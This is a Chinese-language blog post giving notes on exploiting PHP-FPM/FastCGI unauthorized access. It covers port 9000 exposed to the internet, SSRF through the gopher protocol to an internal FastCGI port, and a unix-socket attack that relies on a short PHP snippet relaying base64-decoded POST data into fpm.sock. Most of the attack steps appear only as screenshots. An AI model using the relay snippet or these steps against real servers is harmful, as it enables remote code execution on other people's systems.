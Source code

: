 ```yaml
---
layout:     post
title:      2020-06-13-PHP-FPM-Fastcgi-未授权访问漏洞
subtitle:   。。
date:       2020-06-13
author:     BY Diego
header-img: img/wenzhang/PHP-FPM.jpg
catalog: true
tags:
    - 命令注入
    - PHP
---
```


# PHP-FPM 两种模式

**php-fpm 有两种模式，一种是基于tcp 另一种是基于unix套接字，tcp模式会启动9000端口 而unix套接字模式是基于fpm.sock文件**


**tcp模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvbEYn.png](https://s1.ax1x.com/2020/06/13/tvbEYn.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvbAFs.png](https://s1.ax1x.com/2020/06/13/tvbAFs.png)

效果如下会开启9000端口
![tvb6pt.png](https://s1.ax1x.com/2020/06/13/tvb6pt.png)
**unix模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvH1RP.png](https://s1.ax1x.com/2020/06/13/tvH1RP.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvHlGt.png](https://s1.ax1x.com/2020/06/13/tvHlGt.png)

![tvqzqS.png](https://s1.ax1x.com/2020/06/13/tvqzqS.png)

# 攻击

具体原理参考其他文章，个人简单记录攻击方法

## Fastcgi暴露在外网

**tcp模式下的9000端口暴露外网**

直接利用poc 进行攻击，前提知道某php脚本的绝对路径，一般有php环境的都会自带php文件，根据实际选一个
![tjc98s.png](https://s1.ax1x.com/2020/06/13/tjc98s.png)

效果如下
![tjcPvq.png](https://s1.ax1x.com/2020/06/13/tjcPvq.png)


## Fastcgi在内网

**tcp模式下的9000端口在内网**

利用**gopher协议** 进行ssrf

可以本地先搭建个环境，直接用vulhub也行，用上面的脚本进行流量抓取
![tjcC2n.png](https://s1.ax1x.com/2020/06/13/tjcC2n.png)
跟踪一下流
![tjcpCj.png](https://s1.ax1x.com/2020/06/13/tjcpCj.png)
把发送数据转化成原始数据
![tj6z5Q.png](https://s1.ax1x.com/2020/06/13/tj6z5Q.png)

url编一下码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join(a)
```
![tjcFK0.png](https://s1.ax1x.com/2020/06/13/tjcFK0.png)

然后利用curl 模拟一下
![tjW8ld.png](https://s1.ax1x.com/2020/06/13/tjW8ld.png)

或者直接利用工具自动生成payload
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)

![tjW3SH.png](https://s1.ax1x.com/2020/06/13/tjW3SH.png)


# unix套接字攻击

使用的是unix套接字，因此不会开放9000端口，但同样需要存在php文件

需要在服务器端执行如下代码
```php
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```
可以通过工具生成，然后截取`_`以后的部分，url解码之后转base64
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)


也可跟ssrf相同方法 获得原始数据直接转base64

![tvXBKP.png](https://s1.ax1x.com/2020/06/13/tvXBKP.png)
